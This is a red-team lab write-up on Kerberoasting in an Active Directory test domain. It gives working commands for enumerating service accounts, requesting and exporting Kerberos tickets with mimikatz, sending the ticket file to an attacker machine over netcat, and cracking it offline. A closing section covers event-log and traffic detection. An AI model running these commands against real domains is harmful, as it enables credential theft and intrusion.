 ```yaml
---
description: Credential Access
---
```


# Kerberoasting

This lab explores the Kerberoasting attack - it allows any domain user to request kerberos tickets from TGS that are encrypted with NTLM hash of the plaintext password of a domain user account that is used as a service account (i.e account used for running an IIS service) and crack them offline avoiding AD account lockouts.

## Execution

Note the vulnerable domain member - a user account with `servicePrincipalName` attribute set, which is very important piece for kerberoasting - only user accounts with that property set are most likely susceptible to kerberoasting:

![](../../.gitbook/assets/kerberoast-principalname.png)

Attacker setting up an nc listener to receive a hash for cracking:

{% code title="attacker@local" %}
```csharp
nc -lvp 443 > kerberoast.bin
```
{% endcode %}

### Extracting the Ticket

Attacker enumerating user accounts with `serverPrincipalName` attribute set:

{% code title="attacker@victim" %}
```csharp
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-enumeration.png)

Using only built-in powershell, we can extract the susceptible accounts with:

```csharp
get-adobject | Where-Object {$_.serviceprincipalname -ne $null -and $_.distinguishedname -like "*CN=Users*" -and $_.cn -ne "krbtgt"}
```

![](../../.gitbook/assets/kerberoast-powershell.png)

It would have been better to use the following command provided by [Sean Metcalf](https://adsecurity.org/?p=2293) purely because of the `-filter` usage (quicker than `select-object`), but it did not work for me:

```csharp
get-adobject -filter {serviceprincipalname -like “*sql*”} -prop serviceprincipalname
```

Additionally, user accounts with SPN set could be extracted with a native windows binary:

```
 setspn -T offense -Q */*
```

![](<../../.gitbook/assets/kerberoast-setspn (1).png>)

Attacker requesting a kerberos ticket (TGS) for a user account with `servicePrincipalName` set to `HTTP/dc-mantvydas.offense.local`- it gets stored in the memory:

{% code title="attacker@victim" %}
```csharp
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/dc-mantvydas.offense.local"
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-kerberos-token.png)

Using mimikatz, the attacker extracts kerberos ticket from the memory and exports it to a file for cracking:

{% code title="attacker@victim" %}
```csharp
mimikatz # kerberos::list /export
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-exported-kerberos-tickets.png)

Attacker sends the exported service ticket to attacking machine for offline cracking:

{% code title="attacker@victim" %}
```csharp
nc 10.0.0.5 443 < C:\tools\mimikatz\x64\2-40a10000-spotless@HTTP~dc-mantvydas.offense.local-OFFENSE.LOCAL.kirbi
```
{% endcode %}

### Cracking the Ticket

Attacker brute forces the password of the service ticket:

{% code title="attacker@local" %}
```csharp
python2 tgsrepcrack.py pwd kerberoast.bin
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-cracked.png)

## Observations

Below is a security log `4769` showing service access being requested:

![](../../.gitbook/assets/kerberoast-4769.png)

If you see `Add-event -AssemblyName SystemIdentityModel` (from advanced Powershell logging) followed by a windows security event `4769` immediately after that, you may be looking at an old school Kerberoasting, especially if ticket encryption type has a value `0x17` (23 decimal, meaning it's RC4 encrypted):

![](../../.gitbook/assets/kerberoast-logs.png)

### Traffic

Below is the screenshot showing a request being sent to the `Ticket Granting Service` (TGS) for the service with a servicePrincipalName `HTTP/dc-mantvydas.offense.local` :

![](../../.gitbook/assets/kerberoast-tgs-req.png)

Below is the response from the TGS for the user `spotless` (we initiated this attack from offense\spotless) which contains the encrypted (RC4) kerberos ticket (server part) to access the `HTTP/dc-mantvydas.offense.local` service. It is the same ticket we cracked earlier with [tgsrepcrack.py](t1208-kerberoasting.md#cracking-the-ticket):

![](../../.gitbook/assets/kerberoast-tgs-res.png)

Out of curiosity, let's decrypt the kerberos ticket since we have the password the ticket was encrypted with.

Creating a kerberos keytab file for use in wireshark:

{% code title="attacker@local" %}
```bash
root@~# ktutil 
ktutil:  add_entry -password -p HTTP/iis_svc@dc-mantvydas.offense.local -k 1 -e arcfour-hmac-md5
Password for HTTP/iis_svc@dc-mantvydas.offense.local: 
ktutil:  wkt /root/tools/iis.keytab
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-creating-keytab.png)

Adding the keytab to wireshark:

![](../../.gitbook/assets/kerberoast-wireshark-keytab.png)

Note how the ticket's previously encrypted piece is now in plain text and we can see information pertinent to the requested ticket for a service `HTTP/dc-mantvydas.offense.local` :

![](../../.gitbook/assets/kerberoast-decrypted.png)

### tgsrepcrack.py

Looking inside the code and adding a couple of print statements in key areas of the script, we can see that the password from the dictionary (`Passw0rd`) initially gets converted into an NTLM (`K0`) hash, then another key `K1` is derived from the initial hash and a message type, yet another key `K2` is derived from K1 and an MD5 digest of the encrypted data. Key `K2` is the actual key used to decrypt the encrypted ticket data:

![](../../.gitbook/assets/kerberoast-crackstation.png)

![](../../.gitbook/assets/kerberoast-printstatements.png)

I did not have to, but I also used an online RC4 decryptor tool to confirm the above findings:

![](../../.gitbook/assets/kerberoast-decryptedonline.png)

{% file src="../../.gitbook/assets/kerberoast.pcap" %}
kerberoast.pcap
{% endfile %}

## References

[Tim Medin - Attacking Kerberos: Kicking the Guard Dog of Hades](https://files.sans.org/summit/hackfest2014/PDFs/Kicking%20the%20Guard%20Dog%20of%20Hades%20-%20Attacking%20Microsoft%20Kerberos%20%20-%20Tim%20Medin\(1\).pdf)

{% embed url="https://attack.mitre.org/wiki/Technique/T1208" %}

{% embed url="https://github.com/nidem/kerberoast" %}

{% embed url="https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/" %}

{% embed url="https://adsecurity.org/?p=2293" %}

{% embed url="https://www.youtube.com/watch?v=nJSMJyRNvlM&feature=youtu.be&t=16" %}

{% embed url="http://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/" %}

{% embed url="https://pentestlab.blog/2018/06/12/kerberoast/" %}

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-1/" %}

{% embed url="https://pentestlab.blog/2018/06/12/kerberoast/" %}

{% embed url="http://rc4.online-domain-tools.com/" %}

{% embed url="https://crackstation.net/" %}

{% embed url="https://blogs.technet.microsoft.com/askds/2008/03/06/kerberos-for-the-busy-admin/" %}

{% embed url="https://medium.com/@jsecurity101/ioc-differences-between-kerberoasting-and-as-rep-roasting-4ae179cdf9ec" %}
